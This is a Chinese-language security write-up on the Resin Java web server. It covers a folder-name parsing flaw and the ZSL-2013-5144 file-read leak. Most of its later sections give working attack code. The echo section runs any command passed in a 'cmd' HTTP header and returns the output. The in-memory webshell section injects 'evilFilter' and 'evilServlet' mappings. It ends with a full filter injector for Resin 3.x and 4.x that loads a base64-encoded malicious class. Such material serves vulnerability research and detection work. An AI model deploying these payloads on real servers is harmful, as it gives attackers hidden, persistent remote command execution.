**目录**

- 0x01-支持.jspf后缀
- 0x02-类IIS6.0的解析漏洞
- 0x03-Resin 4.0.36 信息泄露漏洞(ZSL-2013-5144)
- 0x04-Resin 回显(已适配 3.x/4.x)
- 0x05-Resin 内存马(已适配 3.x/4.x)


### 0x01-支持.jspf后缀
配置文件

> E:\Resin\resin-4.0.65\conf\app-default.xml


可见Resin不仅支持.jsp、.jspx，也支持.jspf。

```jsp
<%
    response.getWriter().write("Hello Resin !!!");
%>
```


### 0x02-类IIS6.0的解析漏洞

先看测试效果图


希望传达的意思

- 若文件夹名为`xxx.jsp`，其中放置的任意后缀的文件都将被当作JSP文件解析。

#### 1、为什么会这样？

分三步跟一下http请求的处理过程，来到关键函数下个断点

- com.caucho.server.dispatch.UrlMap#map

**第1步：jsp文件**




正常进入jsp的解析逻辑



**第2步：非jsp文件**


进入resin-file的处理逻辑


处理结果


**第3步：x.jsp文件夹 + 非.jsp文件**


也进入resin-file的处理逻辑


#### 2、造成这种处理差异的原理是什么？


map方法将会对url路径进行正则表达式，然后根据匹配结果进入不同的处理逻辑

> /hello.jsp


> /hello.hello


> /x.jsp/hello.hello


### 0x03 Resin 4.0.36 信息泄露漏洞(ZSL-2013-5144)

- https://www.zeroscience.mk/en/vulnerabilities/ZSL-2013-5144.php

测试效果
> 读取index.jsp


> 读取resin-admin.xml


#### 漏洞分析

从上面的分析中知道了可以从com.caucho.server.dispatch.UrlMap观察resin对http请求的处理逻辑，下断点调试



一路跟到`ServletMapping`


很明显，到这里应该就知道漏洞成因估计是该版本的resin-web.xml默认添加了路由为/viewfile/*的servlet

文件位置
> E:\Resin\resin-pro-4.0.36\doc\resin-doc\WEB-INF\resin-web.xml



跟进对应的类
- com.caucho.doc.ViewFileServlet


继续断点


然后通过viewFile打印文件内容




### 回显


#### Resin 4.x

​		在resin 4.X中跟一下如何获取response对象

- com.caucho.server.http.HttpRequest#handleRequest

  

- com.caucho.server.http.AbstractHttpRequest#getResponseFacade

  - 返回 response 对象

  

  所以如果能获取到AbstractHttpRequest对象并调用该对象的getResponseFacade方法，即可获取response对象。

​		获取AbstractHttpRequest对象，继承关系如下:

> CTRL + H




##### 基于 TcpSocketLink

> com.caucho.network.listen.TcpSocketLink

​		通过反射从`_currentRequest`获取到request对象


​		测试发现实际上获取到的request对象为HttpRequest类型，而HttpRequest继承自`AbstractHttpRequest`，则可以调用getResponseFacade()方法获取response对象


回显思路

- 通过调用TcpSocketLink.getCurrentRequest()获取ProtocolConnection对象（实际HttpRequest）
- 通过调用其父类(AbstractHttpRequest)的getResponseFacade方法获取response对象
- 通过反射调用reponse对象的getWriter方法获取PrintWriter对象
- 通过PrintWriter对象的write方法写入回显内容


代码实现

```java
// 获取TcpSocketLink Class对象
Class tcpSocketLinkClazz = Thread.currentThread().getContextClassLoader().loadClass("com.caucho.network.listen.TcpSocketLink");
// 通过反射调用getCurrentRequest方法 
Method getCurrentRequestM = tcpSocketLinkClazz.getMethod("getCurrentRequest");
Object currentRequest = getCurrentRequestM.invoke(null);
// 从父类(AbstractHttpRequest)中获取_responseFacade字段
Field f = currentRequest.getClass().getSuperclass().getDeclaredField("_responseFacade");
f.setAccessible(true);
// 获取response对象
Object response = f.get(currentRequest);
// 获取getWriter方法
Method getWriterM = response.getClass().getMethod("getWriter");
// 调用getWriter获取Writer对象
Writer writer = (Writer)getWriterM.invoke(response);
// 获取getHeader方法
Method getHeaderM = currentRequest.getClass().getMethod("getHeader", String.class);
// 调用getHeader获取到通过需执行的命令：cmd
String cmd = (String)getHeaderM.invoke(currentRequest, "cmd");
// 执行命令
Scanner scanner = (new Scanner(Runtime.getRuntime().exec(cmd).getInputStream())).useDelimiter("\\A");
// 写入命令执行结果并回显
writer.write(scanner.hasNext() ? scanner.next() : "");
```

##### 基于 ServletInvocation

- com.caucho.server.dispatch.ServletInvocation#getContextRequest

  - 获取ContextRequest对象

  

  - 实际获取到的为HttpServletRequestImpl对象

    

- com.caucho.server.http.HttpServletRequestImpl#_response

  - 获取到HttpServletRequestImpl对象后，通过_response字段获取到response对象。

  

  - 运行时截图

    


回显思路

- 反射调用ServletInvocation.getContextRequest()获取HttpServletRequestImpl对象
- 反射获取_response字段得到response对象
- 反射调用reponse对象的getWriter方法获取PrintWriter对象
- 通过PrintWriter对象的write方法写入需回显内容


代码实现

```java
// 反射调用ServletInvocation.getContextRequest()获取HttpServletRequestImpl对象
Object currentRequest = Thread.currentThread().getContextClassLoader().loadClass("com.caucho.server.dispatch.ServletInvocation").getMethod("getContextRequest").invoke(null);
// 反射获取_response字段（response对象）
Field _responseF = currentRequest.getClass().getDeclaredField("_response");
_responseF.setAccessible(true);
Object response = _responseF.get(currentRequest);
// 获取getWriter方法
Method getWriterM = response.getClass().getMethod("getWriter");
// 调用getWriter获取Writer对象
Writer writer = (Writer)getWriterM.invoke(response);
// 获取getHeader方法
Method getHeaderM = currentRequest.getClass().getMethod("getHeader", String.class);
// 调用getHeader获取到通过需执行的命令：cmd
String cmd = (String)getHeaderM.invoke(currentRequest, "cmd");
// 执行命令
Scanner scanner = (new Scanner(Runtime.getRuntime().exec(cmd).getInputStream())).useDelimiter("\\A");
// 写入命令执行结果并回显
writer.write(scanner.hasNext() ? scanner.next() : "");
```

#### Resin 3.x

​	在resin 3.X中跟一下如何获取response对象

- com.caucho.server.http.HttpRequest#handleRequest

  

- com.caucho.server.connection.AbstractHttpRequest#_response

  - response 对象

  

  所以如果能获取到AbstractHttpRequest对象，则可以反射获取该对象的_response字段（即response对象）。

  获取AbstractHttpRequest对象:

  ​		查看该类的继承关系，继承关系如下：

  > CTRL + H


##### 基于 ServletInvocation

> com.caucho.server.dispatch.ServletInvocation

- com.caucho.server.dispatch.ServletInvocation#getContextRequest

  - 返回ServletRequest对象

  

  - 实际获取到的为HttpRequest对象

    

- com.caucho.server.connection.AbstractHttpRequest#_response

  - 获取到HttpRequest对象，由于HttpRequest类中并没有保存_response对象，需要从父类AbstractHttpRequest中获取。

  

  - 运行时截图

    ```
    contextRequest.getClass().getSuperclass() -> com.caucho.server.connection.AbstractHttpRequest
    ```

    


回显思路

- 反射调用ServletInvocation.getContextRequest()获取HttpRequest对象
- 从父类AbstractHttpRequest中获取_response字段（response对象）
- 通过反射调用reponse对象的getWriter方法获取PrintWriter对象
- 通过PrintWriter对象的write方法写入需回显内容


代码实现

```java
// 获取ServletInvocation Class对象，反射调用getContextRequest方法获取ServletRequest对象
Object currentRequest = Thread.currentThread().getContextClassLoader().loadClass("com.caucho.server.dispatch.ServletInvocation").getMethod("getContextRequest").invoke(null);
// 从父类AbstractHttpRequest中获取response对象
Field _responseF = currentRequest.getClass().getSuperclass().getDeclaredField("_response");
_responseF.setAccessible(true);
Object response = _responseF.get(currentRequest);
// 获取getWriter方法
Method getWriterM = response.getClass().getMethod("getWriter");
// 调用getWriter获取Writer对象
Writer writer = (Writer)getWriterM.invoke(response);
// 获取getHeader方法
Method getHeaderM = currentRequest.getClass().getMethod("getHeader", String.class);
// 调用getHeader获取到通过需执行的命令：cmd
String cmd = (String)getHeaderM.invoke(currentRequest, "cmd");
// 执行命令
Scanner scanner = (new Scanner(Runtime.getRuntime().exec(cmd).getInputStream())).useDelimiter("\\A");
// 写入命令执行结果并回显
writer.write(scanner.hasNext() ? scanner.next() : "");
```


#### Resin 3.x & 4.x 

> 多版本适配、已测试 3.1.16、4.0.65

##### 基于 ServletInvocation

> 细节参考以上

代码实现

```java
Object currentRequest = Thread.currentThread().getContextClassLoader().loadClass("com.caucho.server.dispatch.ServletInvocation").getMethod("getContextRequest").invoke(null);
Field _responseF;
if(currentRequest.getClass().getName().contains("com.caucho.server.http.HttpRequest")){
    // 3.x 需要从父类中获取
    _responseF = currentRequest.getClass().getSuperclass().getDeclaredField("_response");
}else{
    _responseF = currentRequest.getClass().getDeclaredField("_response");
}
_responseF.setAccessible(true);
Object response = _responseF.get(currentRequest);
Method getWriterM = response.getClass().getMethod("getWriter");
Writer writer = (Writer)getWriterM.invoke(response);
Method getHeaderM = currentRequest.getClass().getMethod("getHeader", String.class);
String cmd = (String)getHeaderM.invoke(contextRequest, "cmd");
Scanner scanner = (new Scanner(Runtime.getRuntime().exec(cmd).getInputStream())).useDelimiter("\\A");
writer.write(scanner.hasNext() ? scanner.next() : "");
```

使用方法

```http
cmd: whoami
```

测试效果


### 0x05 Resin 内存马

#### Resin 3.x

> 内存马相关实现、本地测试版本：resin v3.1.16

##### WebApp

> 当前代码运行时上下文环境

配置`web.xml`

```xml
<servlet>
    <servlet-name>ServletShell</servlet-name>
    <servlet-class>com.example.general.ServletShell</servlet-class>
</servlet>
<servlet-mapping>
    <servlet-name>ServletShell</servlet-name>
    <url-pattern>/index</url-pattern>
</servlet-mapping>
```

`com.example.general.ServletShell#doGet`方法处断点，获得相关的调用栈如下


逐步分析

- com.caucho.server.dispatch.ServletInvocation

  - 成员方法  getContextRequest()

    

    ```
    Object currentRequest = this.getClass().getMethod("getContextRequest").invoke(null);
    ```

    

    ```
    currentRequest.getClass() -> com.caucho.server.http.HttpRequest
    ```

    

- com.caucho.server.http.HttpRequest

  - 继承自 com.caucho.server.connection.AbstractHttpRequest

    - 成员方法 getWebApp()

      

      ```
      currentRequest.getClass().getMethod("getWebApp").invoke(currentRequest) -> com.caucho.server.webapp.Application
      ```

      

- com.caucho.server.webapp.Application

  - 继承自 com.caucho.server.webapp.WebApp

    - 向上转换（upcasting），方便调用父类(WebApp)中定义的方法和变量

      ```
      WebApp webApp = (WebApp)currentRequest.getClass().getMethod("getWebApp").invoke(currentRequest);
      ```

  可成功获取到当前web context(WebApp)。

- com.caucho.server.webapp.WebApp

  - 需要关注的成员方法

    - Filter

    

    - Listener

    

    - Servlet

    

  至此，针对不同类型的内存马调用相关的成员方法注入即可。


获取WebApp(当前上下文)的代码实现

```java
ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
Class servletInvocation = classLoader.loadClass("com.caucho.server.dispatch.ServletInvocation");
Object currentRequest = servletInvocation.getMethod("getContextRequest").invoke(null);
WebApp webApp = (WebApp)currentRequest.getClass().getMethod("getWebApp").invoke(currentRequest);
```

运行时截图


##### Filter

###### 基于 addFilterMapping

addFilterMapping

- com.caucho.server.webapp.WebApp#addFilterMapping


Filter 示例


Filter 配置

> 常用的方法就是先在web.xml中定义1个 filter demo，然后断点查看相关配置参数

- _filterName
- _filterClassName
- _filterClass
- _urlPattern
- ...




注入思路

- 获取当前环境的WebApp(上下文)

- 构造filterMapping，添加`相关配置`

  ```
  filterMapping.setFilterClass();
  filterMapping.setFilterName();
  FilterMapping.URLPattern urlPattern = filterMapping.createUrlPattern();
  urlPattern.addText(urlPatternX);
  urlPattern.init();
  ```

- 调用成员方法addFilterMapping添加该filterMapping即可


代码实现

```java
String filterName = "evilFilter";
String urlPatternX = "/resin/*";
ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
Class servletInvocation = classLoader.loadClass("com.caucho.server.dispatch.ServletInvocation");
Object currentRequest = servletInvocation.getMethod("getContextRequest").invoke(null);
WebApp webApp = (WebApp)currentRequest.getClass().getMethod("getWebApp").invoke(currentRequest);
Class evilClazz = classLoader.loadClass("com.example.general.FilterShell");
FilterMapping filterMapping = new FilterMapping();
filterMapping.setFilterClass(evilClazz.getName());
filterMapping.setFilterName(filterName);
FilterMapping.URLPattern urlPattern = filterMapping.createUrlPattern();
urlPattern.addText(urlPatternX);
urlPattern.init();
webApp.addFilterMapping(filterMapping);
response.getWriter().write("inject success");
```


测试效果


ps: resin下会报异常如下(`有师傅知道为啥嘛，求指点`)

> java.lang.IllegalStateException: sendError() forbidden after buffer has been committed.

##### Servlet

###### 基于 addServletMapping

addServletMapping

- com.caucho.server.webapp.WebApp#addFilterMapping


Servlet 示例


Servlet 配置

> 常用的方法就是先在web.xml中定义1个 servlet demo，断点查看相关配置参数

- _servletName
- _servletClassName
- _servletClass
- ...


注入思路

- 获取当前环境的WebApp(上下文)

- 构造servletMapping，添加相关配置

  ```
  servletMapping.setServletClass();
  servletMapping.setServletName();
  servletMapping.addURLPattern();
  ```

- 调用成员方法addServletMapping添加该servletMapping即可


代码实现

```java
String servletName = "evilServlet";
String urlPatternX = "/resin/*";
ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
Class<?> servletInvocation = classLoader.loadClass("com.caucho.server.dispatch.ServletInvocation");
Object servletRequest = servletInvocation.getMethod("getContextRequest").invoke(null);
WebApp webApp = (WebApp) servletRequest.getClass().getMethod("getWebApp").invoke(servletRequest);
Class evilClazz = classLoader.loadClass("com.example.general.ServletShell");
ServletMapping servletMapping = new ServletMapping();
servletMapping.setServletClass(evilClazz.getName());
servletMapping.setServletName(servletName);
servletMapping.addURLPattern(urlPatternX);
webApp.addServletMapping(servletMapping);
response.getWriter().write("inject success");
```


测试效果




#### Resin 3.x & 4.x

##### Filter

resin 4.x 内存马的相关实现步骤与3.x没有太大的区别，这里直接给出已适配 resin  3.x & 4.x 的Filter型内存马

```java
/**
 * Tested version：
 *      resin3.1.16
 *      resin4.0.65
 *
 */
public class ResinFilterInject extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        try {
            String filterName = "evilFilter";
            String urlPatternX = "/*";
            ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
            // com.caucho.server.dispatch.ServletInvocation.getContextRequest
            Class servletInvocation = classLoader.loadClass("com.caucho.server.dispatch.ServletInvocation");
            Object currentRequest = servletInvocation.getMethod("getContextRequest").invoke(null);
            // com.caucho.server.connection.AbstractHttpRequest.getWebApp
            WebApp webApp = (WebApp) currentRequest.getClass().getMethod("getWebApp").invoke(currentRequest);
            // com.caucho.server.webapp.WebApp._filterManager
            Field _filterManager = null;
            try {
                _filterManager = webApp.getClass().getDeclaredField("_filterManager");
            }catch (Exception e){
                _filterManager = webApp.getClass().getSuperclass().getDeclaredField("_filterManager");
            }
            _filterManager.setAccessible(true);
            FilterManager filterManager = (FilterManager) _filterManager.get(webApp);
            // com.caucho.server.dispatch.FilterManager._filters
            Field _filtersF = filterManager.getClass().getDeclaredField("_filters");
            _filtersF.setAccessible(true);
            Map _filters = null;
            try{
                // resin3.1.16: Hashtable<String, FilterConfigImpl> _filters = new Hashtable();
                _filters  = (Hashtable<String, FilterConfigImpl>) _filtersF.get(filterManager);
            }catch (Exception e){
                // resin4.0.65: HashMap<String, FilterConfigImpl> _filters = new HashMap();
                _filters = (HashMap<String, FilterConfigImpl>) _filtersF.get(filterManager);
            }
            // prevent multiple injection
            if(!_filters.containsKey(filterName)){
                Class evilClazz = null;
                try {
                    evilClazz = classLoader.loadClass("com.example.general.FilterShell");
                } catch (ClassNotFoundException e) {
                    BASE64Decoder b64Decoder = new sun.misc.BASE64Decoder();
                    byte[] evilFilterBytes = b64Decoder.decodeBuffer("yv66vg......");
                    Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
                    defineClass.setAccessible(true);
                    evilClazz = (Class) defineClass.invoke(classLoader, evilFilterBytes, 0, evilFilterBytes.length);
                }
                FilterMapping filterMapping = new FilterMapping();
                filterMapping.setFilterClass(evilClazz.getName());
                filterMapping.setFilterName(filterName);
                FilterMapping.URLPattern urlPattern = filterMapping.createUrlPattern();
                urlPattern.addText(urlPatternX);
                urlPattern.init();
                webApp.addFilterMapping(filterMapping);
                response.getWriter().write("inject success");
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

web.xml


测试效果




